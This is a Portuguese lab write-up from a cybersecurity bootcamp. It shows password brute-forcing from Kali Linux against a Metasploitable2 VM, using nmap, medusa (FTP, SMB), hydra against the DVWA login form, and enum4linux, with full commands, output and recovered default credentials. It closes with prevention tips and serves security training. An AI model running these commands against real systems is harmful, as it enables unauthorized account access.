



## 💻 Desafio de Projeto: Simulando um Ataque de Brute Force de Senhas com Kali Linux

Este desafio faz parte do Bootcamp Santander - Cibersegurança 2025, em parceria do Santander com a DIO.

O objetivo é simular, em um ambiente controlado, um ataque de força bruta a uma máquina com IP conhecido, para obter credenciais de acesso.

### 🎯 Máquina alvo:
A máquina alvo roda o sistema [MetaSploitable2](https://sourceforge.net/projects/metasploitable/), uma distribuição Linux criada com vulnerabilidades propositais para fins educacionais.

### 🏹 Máquina atacante:
Para simular os ataques, será utilizada a distribuição [Kali Linux](https://www.kali.org/get-kali/), que tem foco em cibersegurança e já vem com uma série de ferramentas para testes de penetração, força bruta, entre outros.

Ambas as máquinas rodam virtualmente no software [Oracle VirtualBox](https://www.virtualbox.org/). É necessário configurar as duas máquinas para que estejam na mesma rede. Para tanto, basta ir nas configurações de cada máquina, clicar no grupo "Rede", localizar a opção "Ligado a:" e selecionar "Placa de rede exclusiva do hospedeiro (host only)".

### Etapa 1: Obtendo o IP da máquina alvo
Para iniciar a tentativa de ataque, será necessário que saibamos o endereço de IP da máquina alvo. Uma vez que a ideia do desafio é atacar um IP já conhecido, vamos simplesmente acessar a máquina e pedir seu endereço, digitando no terminal um dos comandos abaixo:

    ip a

ou

    ifconfig

Neste documento, vamos assumir que o endereço retornado seja `192.168.56.101`, o qual utilizaremos para tentativa de acesso remoto.

Para verificarmos se a máquina alvo está na mesma rede e se os testes serão possíveis, no terminal da máquina atacante podemos utilizar o comando `ping`, seguido do IP da máquina alvo.

    ping 192.168.56.101 -c 4

Se a conexão for estabelecida, o comando retornará os dados sobre o envio e recebimento do pacote. O parâmetro `-c 4` faz com que o comando pare após o recebimento de `4` pacotes.

    $ping 192.168.56.101 -c 4
    64 bytes from 192.168.56.101: icmp_seq=1 ttl=64 time=7.21 ms
    64 bytes from 192.168.56.101: icmp_seq=2 ttl=64 time=2.65 ms
    64 bytes from 192.168.56.101: icmp_seq=3 ttl=64 time=3.22 ms
    64 bytes from 192.168.56.101: icmp_seq=4 ttl=64 time=4.36 ms

### Etapa 2: Enumerando serviços e portas vulneráveis
Obtido o IP da máquina alvo, podemos utilizar a ferramenta `nmap` para fazer uma varredura na máquina alvo, procurando por portas e serviços com vulnerabilidades potenciais.

No terminal da máquina atacante, podemos utilizar o comando:

    nmap -sV -p 21,22,80,139,445 --open 192.168.56.101

O parâmetro `-sV` tenta identificar a versão do serviço rodando em cada porta. Se conhecemos a versão do serviço, podemos nos aproveitar de vulnerabilidades conhecidas para tais versões.  
O parâmetro `-p` nos permite definir um conjunto de portas para verificar. Neste caso, faremos uma varredura nas portas 21, 22, 80, 139 e 445.  
O parâmetro `--open` exibe apenas portas potencialmente abertas.

Abaixo podemos ver a resposta do comando, indicando que as portas 21 (ftp), 22 (ssh), 80 (http), 139 e 445 (netbios-ssn) estão abertas e possivelmente vulneráveis, além de ser possível ver a versão de cada serviço executado.

    Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-03 11:28 -03
    Nmap scan report for 192.168.56.101
    Host is up (0.042s latency).

    PORT    STATE SERVICE     VERSION
    21/tcp  open  ftp         vsftpd 2.3.4
    22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
    80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    MAC Address: 08:00:27:25:CB:C1 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

### Etapa 3: Teste de penetração na porta FTP
#### Etapa 3.1: Criação de arquivos para teste de força bruta

Para tentar acessar um servidor por força bruta, tentamos o acesso com um nome de usuário e uma senha. Se não der certo, tentamos com outra combinação de nome de usuário e senha e assim por diante até que alguma combinação obtenha sucesso. Fazer esse processo manualmente poderia demorar um tempo inviável. Então utilizaremos ferramentas computacionais para automatizar esse processo e testar várias combinações de nome de usuário e senha.

Para tanto, criaremos dois arquivos de texto: um com possíveis nomes de usuário e outro com possíveis senhas.

Neste desafio serão utilizados os arquivos `users.txt` e `pass.txt`.

#### Etapa 3.2: Execução do teste de força bruta no servidor de FTP

Com os arquivos de usuários e senhas criados, podemos realizar um teste de penetração por força bruta em uma das portas abertas. Nesta etapa, será utilizada a porta do serviço de ftp, que já identificamos na etapa 2 como vulnerável.

Usaremos a ferramenta `medusa` para o teste de penetração, executando o comando:

    medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6 -v 4

A ferramenta medusa serve para realizar testes de força bruta em serviços possivelmente vulneráveis.

O parâmetro `-h` define o endereço IP da máquina alvo.  
O parâmetro `-u` pode ser utilizado para deinir um único nome de usuário a ser testado. Alternativamente, pode ser utilizado o parâmetro `-U` para definir um arquivo com vários nomes de usuário a serem testados. Neste caso, foi utilizado o arquivo `users.txt`.    
O parâmetro `-p` pode ser utilizado para deinir uma única senha a ser testada. Alternativamente, pode ser utilizado o parâmetro `-P` para definir um arquivo com várias senhas a serem testadas. Neste caso, foi utilizado o arquivo `pass.txt`.  
O parâmetro `-M` define o módulo que será utilizado no teste. Neste caso, usaremos o módulo `ftp` da ferramenta medusa.  
Para aumentar a velocidade do teste, podemos utilizar o parâmetro `-t` para definir um número de testes a serem realizados em paralelo. Aqui definimos 6.  
Por fim, o parâmetro `-v` controla a verbose da resposta, que é a quantidade de mensagens exibidas no terminal. Ajustando o nível para 4, apenas serão exibidas mensagens de testes que retornaram sucesso, que é o que nos interessa.

O comando retornou a saída abaixo, indicando que o nome de usuário `msfadmin` e a senha `msfadmin` permitiram o acesso ao serviço de ftp da máquina alvo.

    2025-11-03 15:46:09 ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]

Tendo uma combinação válida de nome de usuário e senha, podemos acessar o serviço de FTP rodando na máquina alvo através do terminal da máquina atacante, como visto abaixo:

    $ ftp 192.168.56.101

    Connected to 192.168.56.101.
    220 (vsFTPd 2.3.4)
    Name (192.168.56.101:kali): msfadmin
    331 Please specify the password.
    Password: 
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> _

### Etapa 4: Teste de Penetração por força bruta em formulário de login na web

Testes de força bruta também podem ser utilizados em formulários de login em páginas da internet e, caso um usuário possua uma senha insegura, sua conta pode ser acessada usando a técnica. Uma vez acessada a conta, o atacante pode obter dados sigilosos ou até mesmo alterar o sistema, caso o usuário alvo possua permissões elevadas.

Neste desafio, utilizaremos o serviço web DVWA (Damn Vulnerable Web Application), que faz parte do MetaSploitable e pode ser acessado a partir da máquina atacante pelo navegador web, através do endereço `192.168.56.101/dvwa` (observe que o IP da máquina do MetaSploitable pode ser outro). O site redirecionará para a página de login e pedirá nome de usuário e senha, como mostra imagem abaixo.

Tentando entrar com credenciais aleatórias e inspecionando a página de resposta, temos a imagem abaixo, que mostra que a mensagem de erro retornada é `Login failed` e o formato do envio dos dados de formulário é `username=teste&password=teste&Login=Login` (no exemplo, foi utilizada a palavra "teste" nos campos de usuário e senha).

Com os dados analisados, podemos utilizar a ferramenta `Hydra` para realizar um ataque de força bruta no formulário web presente na página, inserindo o comando abaixo no terminal da máquina atacante:

    hydra -L users.txt -P pass.txt 192.168.56.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed" -o hydra_results.txt

O parâmetro `-L` permite definir um arquivo com nomes de usuário a serem testados. Usaremos o arquivo users.txt.  
O parâmetro `-P` permite definir um arquivo com senhas a serem testadas. Usaremos o arquivo pass.txt. 
O parâmetro `http-post-form` indica que utilizaremos um formulário web em uma página http através do método POST. O formulário se encontra na página `/dvwa/login.php` e os dados a serem enviados serão `username=^USER^&password=^PASS^&Login=Login`, onde ^USER^ e ^PASS^ são variáveis contendo o nome de usuário e a senha e serão acessados através dos respectivos arquivos. Para a ferramenta Hydra saber se o acesso foi bem sucedido, ela verifica se a página retorna uma mensagem de falha, que deve ser informada pelo complemento `F=Login failed` ("Vimos antes que 'Login failed' é a mensagem de erro retornada pela página).  
O parâmetro opcional `-o` salva os resultados em um arquivo de texto. Aqui usamos o arquivo hydra_results.txt.

Abaixo podemos ver o resultado da execução do comando, que mostra que a combinação  nome de usuário `admin` e senha `password` obteve sucesso no acesso ao sistema.

    $ hydra -L users.txt -P pass.txt 192.168.56.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed" -o hydra_results.txt
    Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-11-03 16:36:18
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 50 login tries (l:5/p:10), ~4 tries per task
    [DATA] attacking http-post-form://192.168.56.101:80/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed
    [80][http-post-form] host: 192.168.56.101   login: admin   password: password
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-11-03 16:37:06

Com os dados retornados pela ferramenta Hydra, podemos acessar a página do DVWA, como mostra imagem abaixo.

### Etapa 5: Teste de penetração em servidor SMB

Servidores SMB são utilizados para compartilhamento de mensagens, dispositivos e serviços.

Nesta etapa faremos um teste de penetração no serviço de SMB rodando no MetaSploitable.

#### Etapa 5.1: Enumeração de usuários do servidor SMB
Diferente do método de força bruta, onde testamos usuários e senhas aleatórios, aqui tentaremos descobrir os usuários listados no serviço SMB máquina alvo. Para tanto, podemos utilizar a ferramenta enum4llinux, que dispões de várias técnicas de enumeração de usuários. No terminal da máquina atacante, podemos inserir os comandos:

    enum4linux -a 192.168.56.101 | tee enum4output.txt

À esquerda do "|", temos a ferramenta enum4linux que tentará enumerar os usuários da máquina com IP 192.168.56.101. O parâmetro `-a` indica que utilizaremos todos os métodos disponíveis na ferramenta.  
À direita do "|", temos o comando tee, que salva o conteúdo retornado pela ferramenta enum4linux em um arquivo de texto (neste caso, enum4output.txt).

#### Etapa 5.2: Criação de arquivos de usuários e senhas
Acessando o arquivo enum4output.txt, vemos o trecho abaixo, que possui os nomes de usuário encontrados no servidor SMB.

    user:[games] rid:[0x3f2]
    user:[nobody] rid:[0x1f5]
    user:[bind] rid:[0x4ba]
    user:[proxy] rid:[0x402]
    user:[syslog] rid:[0x4b4]
    user:[user] rid:[0xbba]
    user:[www-data] rid:[0x42a]
    user:[root] rid:[0x3e8]
    user:[news] rid:[0x3fa]
    user:[postgres] rid:[0x4c0]
    user:[bin] rid:[0x3ec]
    user:[mail] rid:[0x3f8]
    user:[distccd] rid:[0x4c6]
    user:[proftpd] rid:[0x4ca]
    user:[dhcp] rid:[0x4b2]
    user:[daemon] rid:[0x3ea]
    user:[sshd] rid:[0x4b8]
    user:[man] rid:[0x3f4]
    user:[lp] rid:[0x3f6]
    user:[mysql] rid:[0x4c2]
    user:[gnats] rid:[0x43a]
    user:[libuuid] rid:[0x4b0]
    user:[backup] rid:[0x42c]
    user:[msfadmin] rid:[0xbb8]
    user:[telnetd] rid:[0x4c8]
    user:[sys] rid:[0x3ee]
    user:[klog] rid:[0x4b6]
    user:[postfix] rid:[0x4bc]
    user:[service] rid:[0xbbc]
    user:[list] rid:[0x434]
    user:[irc] rid:[0x436]
    user:[ftp] rid:[0x4be]
    user:[tomcat55] rid:[0x4c4]
    user:[sync] rid:[0x3f0]
    user:[uucp] rid:[0x3fc]

Podemos copiar os nomes de usuário para um arquivo que será uilizado no teste de penetração. Neste caso, os dados foram copiados para o arquivo smb_users.txt.

Também podemos utilizar um arquivo com as senhas a serem testadas, o qual poderá ser criado manualmente ou obtido em sites de vazamentos ou de senhas conhecidamente inseguras e comuns. Neste caso, utilizaremos o arquivo pass.txt, utilizado anteriormente.

#### Etapa 5.3: Tentativa de acesso ao servidor
O teste de penetração será feito utilizando novamente a ferramenda medusa na máquina atacante, através do comando:

    medusa -h 192.168.56.101 -U smb_users.txt -P pass.txt -M smbnt -t 6 -v 4

O comando utiliza os mesmos parâmetros utilizados na etapa 3.2. Os nomes de usuários a serem testados estão no arquivo smb_users.txt e as senhas no arquivo pass.txt. Além disso, agora utilizamos o modo smbnt para o teste de penetração.

O resultado da execução do comando pode ser visto abaixo, onde vemos que a combinação nome de usuário `msfadmin` e senha `msfadmin` permite o acesso ao servidor SMB. Inclusive, o usuário possui acesso de administrador, indicado pela expressão "(ADMIN$ - Access Allowed)".

    $ medusa -h 192.168.56.101 -U smb_users.txt -P pass.txt -M smbnt -t 2 -T 50 -v 4
    Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

    2025-11-04 11:27:52 ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]

Para verificar o sucesso do teste, podemos tentar acessar o servidor SMB na máquina alvo entrando com o nome de usuário e a senha obtidos.

    $smbclient -L //192.168.56.101 -U msfadmin                               
    Password for [WORKGROUP\msfadmin]:

            Sharename       Type      Comment
            ---------       ----      -------
            print$          Disk      Printer Drivers
            tmp             Disk      oh noes!
            opt             Disk      
            IPC$            IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
            ADMIN$          IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
            msfadmin        Disk      Home Directories
    Reconnecting with SMB1 for workgroup listing.

            Server               Comment
            ---------            -------

            Workgroup            Master
            ---------            -------
            WORKGROUP            METASPLOITABLE

### Prevenção
Entre as formas de prevenção dos ataques realizados, destacam-se:
- Utilização de senhas fortes e não óbvias;
- Troca periódica de senha, mantendo os mesmos padrões de segurança;
- Utilização de versões atualizadas dos serviços, para evitar vulnerabilidades de versões legadas;
Utilização de firewalls para rastrear o comportamento dos acessos à rede;
- Não compartilhar senhas;
- Não utilizar a mesma senha para vários serviços diferentes;
- Adotar políticas de mínimo privilégio necessário para cada usuário;
- Utilizar autenticação em múltiplos fatores;
- O fator humando ainda é o maior risco de vulnerabilidade em redes e sistemas.

_______
Alan C. Dias, 2025